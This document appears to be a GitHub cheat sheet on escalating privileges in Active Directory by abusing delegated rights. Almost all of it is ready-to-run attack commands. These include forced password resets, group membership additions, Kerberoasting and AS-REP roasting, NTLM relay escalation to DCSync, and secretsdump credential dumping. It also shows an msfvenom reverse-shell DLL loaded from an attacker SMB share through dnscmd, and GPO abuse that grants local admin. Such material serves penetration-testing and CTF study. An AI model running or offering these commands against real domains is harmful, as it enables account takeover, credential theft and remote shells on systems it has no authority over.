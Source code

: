 # Abusing-rights-in-a-Domain

Different domain users, have different rights. Some domain users have GenericAll, GenericWrite, WriteDacl, WriteOwner privilege on other domain users or groups. We can abuse these privileges and move further in domain.


### 1. Abusing GenericAll Privilege

eg: (john have GenericAll priv on Exchange Windows Permissions group)

We can add user in Exchange Windows Permissions group and then we have full control.

```markdown
net group "Exchange Windows Permissions" john /add /domain
```

GenericAll Privilege on adams user. 3-Ways.

1. We can change the adam password.
```markdown
net user adams N3wPassw0rd! /domain
```

2. We can set adams user SPN and do [Kerberoasting](https://k4sth4.github.io/Kerberos/).

Import [Powerview.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
```markdown
Set-DomainObject -Identity adams -Set @{serviceprincipalname="fake/NOTHING"}
.\Rubeus.exe kerberoast /user:jadams /nowrap
```

3. We can set adams account to [AS-REP Roasting](https://k4sth4.github.io/Kerberos/).
```markdown
Set-DomainObject -Identity adams -XOR @{UserAccountControl=4194304}
.\Rubeus.exe asreproast /user:jadams /nowrap
```

### 2. Abusing GenericWrite Perm on a User
Here lily is the user on which we have generic write perm we can set this user to PreAuth and then by using [AS-REP Roasting](https://k4sth4.github.io/Kerberos/) we can get the user hash and crack it and login into system.
```markdown
Set-ADAccountControl -Identity manager -DoesNotRequirePreAuth $true
```
Now we can do [AS-REP Roasting](https://k4sth4.github.io/Kerberos/).


### 3. Abusing WriteDacl Priv on any Group
eg: claire has WriteDacl rights on the Backup_Admins group. We can add it to Backup_Admins group.
```markdown
net group backup_admins
net group backup_admins claire /add
```
NOTE: Open another shell if changes are not reflected.

### 4. Abusing WriteDacl Priv On Domain by grant yourself the DcSync privileges
dan (user) has WriteDacl Perm on DC.

using [Impacket](https://github.com/SecureAuthCorp/impacket) tool:
```markdown
ntlmrelayx.py -t ldap://10.129.95.210 --escalate-user dan
```
(10.129.95.210 = target IP)

nevigate to http://127.0.0.1  and enter the user (dan & pass) now wait till it ask for you to run secretsdump.py on creds

### 5. Abusing WriteOwner Privilege
We're tom user and getting ownership of claire and then change passwd of claire. Import [Powerview.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).
```markdown
Set-DomainObjectOwner -identity claire -OwnerIdentity tom
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
$cred = ConvertTo-SecureString "qwer1234QWER!@#$" -AsPlainText -force
Set-DomainUserPassword -identity claire -accountpassword $cred
```

### 6. Abusing DNS Admin wrights
This way is just for CTFs, in real world this will gonna break the DNS service.

Step1. create a revshell via msfvenom
```markdown
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.x.x LPORT=4444 -f dll > shell.dll
```
Step2. set smbserver in the same dir where shell.dll
```markdown
impacket-smbserver -smb2support share .
```
Step3. exploitation on target machine (we don't need to upload shell.dll)
```markdown
dnscmd.exe /config /serverlevelplugindll \\10.10.x.x\share\shell.dll
sc.exe stop dns
sc.exe start dns
```
You will get a reverse shell.

### 7. Abusing ForceChange Password from linux os
login as support user and audit2020 is the user whose passwd gonna change.
```markdown
rpcclient -U support 10.129.1.243 
setuserinfo2 audit2020 23 'Passw0rd!' 
```


### 8. DcSync Attack
mrlky has Get-Changes privilege on the domain.
```markdown
secretsdump.py -just-dc mrlky:Football@10.10.10.103
```

### 9. Abuse GPO Policy 
upload [SharpGPOAbuse.exe](https://github.com/FSecureLABS/SharpGPOAbuse)
```markdown
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount hackzzdogs --GPOName "DCPolicy"
gpupdate /force
```
(hackzzdogs = current user name)

(DCPolicy = Group Policy Name you can find it on bloodhound)

Now we're in local administrator group.
```markdown
net loacalgroup administrators
```

